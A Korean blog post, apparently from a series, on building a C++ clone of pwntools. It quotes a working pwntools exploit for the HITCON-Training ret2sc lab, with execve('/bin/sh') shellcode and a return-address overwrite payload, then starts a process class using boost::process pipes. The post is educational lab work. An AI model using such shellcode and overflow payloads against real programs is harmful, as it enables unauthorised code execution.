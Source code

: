 <br><br>
해당 문제를 검색해 보면 다음과 같은 풀이집이 있다. ([https://ii4gsp.tistory.com/97](https://ii4gsp.tistory.com/97)). 
아래는 해당 풀이집에서 발췌한 pwntools를 이용한 exploit code이다.
```python
from pwn import *

p = process('/home/ii4gsp/HITCON-Training/LAB/lab3/ret2sc')
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
name = 0x804a060

p.recvuntil(':')
p.sendline(shellcode)

payload = ''
payload += '\x90' * 32
payload += p32(name)

p.recvuntil(':')
p.sendline(payload)

p.interactive()
```

위의 python 코드를 보면 ":" 문자열이 나올때까지 출력을 읽어(recvuntil) 특정 값을 쓰는(sendline) 동작을 2번 반복한 다음 마지막으로 interactive() 함수를 호출한다.

위의 exploit code에서 ret2sc 패스만 수정하여 실행해보면 아래와 같이 정상적으로 shell을 획득하는 것을 볼 수 있다.
![full](/assets/images/ret2sc.png)


지금까지 cpp를 이용한 pwntools를 제작하기 위한 개발환경 구축 및 pwntools를 이용한 exploit 코드의 기본적인 동작을 분석하였다.
다음으로 위의 코드를 기반으로 pwntoolcpp를 제작해 볼 것이다.
우리가 만들어야 할 기본 기능은 process라는 클래스와 recvuntil(), sendline(), p32(), interactive() 멤버 함수이다.



## **PROCESS 클래스**

먼저 process 클래스를 만들어보자. process 클래스는 매개변수로 전달받은 실행파일을 실행하고, console과 해당 프로세스 사이에서의 입출력을 전달한다.

일반적으로 C 프로그램에서 이 기능을 하기 위해서는 fork를 해서 child process의 pipe를 조정해서 입출력을 전달해야 한다.(매우 귀찮은 작업이다). 하지만 C++에서는 boost 라이브러리의 boost::process::child 클래스([https://www.boost.org/doc/libs/1_75_0/doc/html/boost/process/child.html](https://www.boost.org/doc/libs/1_75_0/doc/html/boost/process/child.html))로 쉽고 편하게 사용할 수 있다.

boost::process::child는 실행할 프로그램의 path를 전달하여 간단히 사용할 수도 있으며, 입출력을 redirect 하려면 아래와 같이 pipe 생성 후 매개변수로 전달하기만 하면 된다.
```cpp
std::string m_path;    // 실행할 파일의 경로
boost::asio::io_context io;
boost::process::async_pipe input(io);
boost::process::async_pipe output(io);
boost::process::async_pipe error(io);

boost::process::child process(m_path,
                              boost::process::std_out > output,
                              boost::process::std_in < input,
                              boost::process::std_err > error,
                              io);
```